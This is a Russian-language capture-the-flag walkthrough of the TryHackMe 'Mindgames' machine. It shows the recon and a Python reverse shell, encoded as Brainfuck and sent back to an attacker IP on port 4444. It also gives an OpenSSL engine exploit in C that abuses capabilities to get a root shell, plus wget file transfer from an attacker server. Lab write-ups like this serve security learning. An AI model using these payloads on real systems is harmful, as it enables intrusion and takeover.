 # Mindgames

:white_check_mark:  [**Brainfuck**](#brainfuck)

:white_check_mark: [**Stabiling shell**](#stable)

:white_check_mark: [**Openssl(capabilities)**](#openssl_cap)

:white_check_mark: [**Sending files**](#files)
___

## Enumeration
Сканируем ip командой:
```
nmap -sC -sV mind.thm
```

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 24:4f:06:26:0e:d3:7c:b8:18:42:40:12:7a:9e:3b:71 (RSA)
|   256 5c:2b:3c:56:fd:60:2f:f7:28:34:47:55:d6:f8:8d:c1 (ECDSA)
|_  256 da:16:8b:14:aa:58:0e:e1:74:85:6f:af:bf:6b:8d:58 (ED25519)
80/tcp open  http    Golang net/http server (Go-IPFS json-rpc or InfluxDB API)
|_http-title: Mindgames.
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Главная страница **mind.thm**:

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/Mindgames/1.png)

<a name="brainfuck"></a>

## Getting shell
Видим набор странных символов. Так выглядит **brainfuck**. Перейдем на сайт [dcode](https://www.dcode.fr/brainfuck-language) и раскодируем текст.
```
+[------->++<]>++.++.---------.+++++.++++++.+[--->+<]>+.------.++[->++<]>.-[->+++++<]>++.+++++++..+++.[->+++++<]>+.------------.---[->+++<]>.-[--->+<]>---.+++.------.--------.-[--->+<]>+.+++++++.>++++++++++.
```
```
print("Hello, World")
```

Попробуем подставить закодированный вариант кода в строку для ввода данных. Получаем ответ: **Hello, World**. Приложение обрабатывает закодированный запрос и выдает ответ. Загрузим туда обратную оболочку.

Обратная оболочка:
```
import pty
import socket,os
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("10.8.61.235",4444))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
pty.spawn("/bin/bash")
```

Вставим код на [сайте](https://www.splitbrain.org/services/ook) для кодирования(на нем проще скопировать код, чем на dcode). Получаем ответ, копируем его и вставляем в наше приложение.

Предварительно запустив слушатель, получаем обратную оболочку.

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/Mindgames/2.png)

<a name="stable"></a>

Стабилизируем оболочку командами:
```
python3 -c 'import pty;pty.spawn("/bin/bash")'
export TERM=xterm
CTRL+z
stty raw echo; fg
```

<a name="openssl_cap"></a>

## Getting root
Загрузим linpeas на машину и запустим скрипт. Он найдет нам интересные capabilities:

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/Mindgames/3.png)

Найдем в интернете [эксплоит](https://chaudhary1337.github.io/p/how-to-openssl-cap_setuid-ep-privesc-exploit/)

Создадим файл с названием **openssl-exploit-engine.c** и запишем в него следующий код:
```
#include <openssl/engine.h>

static int bind(ENGINE *e, const char *id)
{
  setuid(0); setgid(0);
  system("/bin/bash");
}

IMPLEMENT_DYNAMIC_BIND_FN(bind)
IMPLEMENT_DYNAMIC_CHECK_FN()
```

(Предварительно установим нужные пакеты командой **sudo apt-get install libssl-dev**).

Скомпилируем код командами:
```
gcc -fPIC -o openssl-exploit-engine.o -c openssl-exploit-engine.c
gcc -shared -o openssl-exploit-engine.so -lcrypto openssl-exploit-engine.o
```

Отправим наш скомпилированный файл на удаленную машину и запустим командой:
```
openssl req -engine ./openssl-exploit-engine.so
```

Получаем рут

<a name="files"></a>

## Extra
Чтобы отправить файл на удаленную машину переходим в директорию с нужным нам файлом. Открываем питон сервер командой:
```
python3 -m http.server 2222
```

На удаленной машине с помощью **wget** или **curl** скачиваем нужный нам файл:
```
wget http://your-ip/2222/openssl-exploit-engine.so
```

![](https:/github.com/fobblified/Writeups/blob/main/Tryhackme/assets/Mindgames/4.png)

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/Mindgames/5.png)
